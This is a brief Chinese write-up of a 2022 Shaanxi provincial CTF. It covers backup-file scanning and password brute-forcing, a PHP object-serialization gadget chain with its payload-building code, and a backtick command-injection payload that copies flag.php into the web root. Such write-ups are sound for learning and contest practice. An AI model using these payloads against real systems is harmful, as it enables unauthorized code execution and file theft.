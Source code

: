 # 2022-陕西省省赛-Writeup

## 被加密的后门

扫出来www.zip和a.txt，知道fuck.php，然后对a.txt里面的东西md5之后爆破即可。

## popop

访问class.php然后构造即可：

```php
<?php

class s{
    public $f;
    public function __construct()
    {
        $this->f = new T();
    }
}
class T{
    public $f;
    public $s;
    public function __construct()
    {
        $this->s = "Getflag";
        $this->f = new L();
    }
}
class L{
    private $haha;
    public function __construct()
    {
        $this->haha = "mama";
    }
}
echo urlencode(serialize(new s()));
```

## spa&col

扫出来robots.txt：

```
/9#S@Q&b?#Mm0+21?
/ix3n3.ksk
```

上面那串base92解密出来是Atbash Cipher，然后atbash解密得到rc3m3.php，访问是个简单的命令执行：

```
code=`cat%09flag.php>/var/www/html/1.txt`
```
